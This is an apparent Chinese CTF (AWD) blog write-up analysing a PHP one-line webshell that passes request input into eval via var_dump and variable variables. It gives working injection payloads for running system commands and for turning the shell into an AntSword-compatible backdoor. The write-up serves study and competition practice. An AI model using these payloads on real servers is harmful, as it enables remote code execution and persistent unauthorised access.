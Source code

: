 ```yaml
---
title: "一个有趣的PHP一句话"
date: 2019-06-30T13:29:56+08:00
lastmod: 2019-06-30T13:29:56+08:00
draft: false
tags: ['php','shell']
categories: ['代码审计']
comment: true
---
```

在iscc线下赛awd中遇到了一个shell，挺有意思，记录一下。
<!--more-->
源代码是这样的。其实刚拿到这个shell的时候我挺蒙的，不知道该怎么去利用，然后分析了一下，发现其实也还简单，下面我们一起来看下。

```php
<?php
show_source(__FILE__);
$a = @$_REQUEST['a'];
@eval("var_dump($$a);");
```

首先从请求中拿到`$a`参数，然后经过一次`var_dump`输出`$$a`的值，最后交给`eval`去执行。

那么显然`eval`的参数我们是可以控制的，关键的点就在于怎么去控制`var_dump`函数输出的内容。

我们先来看下var_dump函数的效果

```php
$a= 'phpinfo();';
var_dump($a);
浏览器输出
E:\code\php\1.php:8:string 'phpinfo();' (length=10)
```

可以看出来他会把变量的类型和变量的值都输出出来。

然后我们回头来看`$$`，在之前的文章中提到过，`$$`是存在变量覆盖的，那么我们可以通过`$$`来把`a`变量覆盖为我们想要的值。

![](https://y4er.com/img/uploads/20190630134606.png)

可以看到，当我们post提交`a=a=1`是，`$a`的值被覆盖为1，此时`eval`执行的是`eval("var_dump($a=1);")`

那么我们继续构造payload，闭合`var_dump`来拼接我们自己的函数。

```http
post
a=a=1);system(whoami
```

![](https://y4er.com/img/uploads/20190630135147.png)

利用成功！

那么怎么让蚁剑也能用这个shell呢？继续修改我们的payload

```http
post
a=a=1);eval($_POST[p]);//
```

然后蚁剑配置

![](https://y4er.com/img/uploads/20190630135604.png)

密码是p。这样就能连上蚁剑了。



s1ye师傅提出了另一种思路`${}`。~~他个臭嗨又偷偷看我文章~~

![](https://y4er.com/img/uploads/20190707175856.png)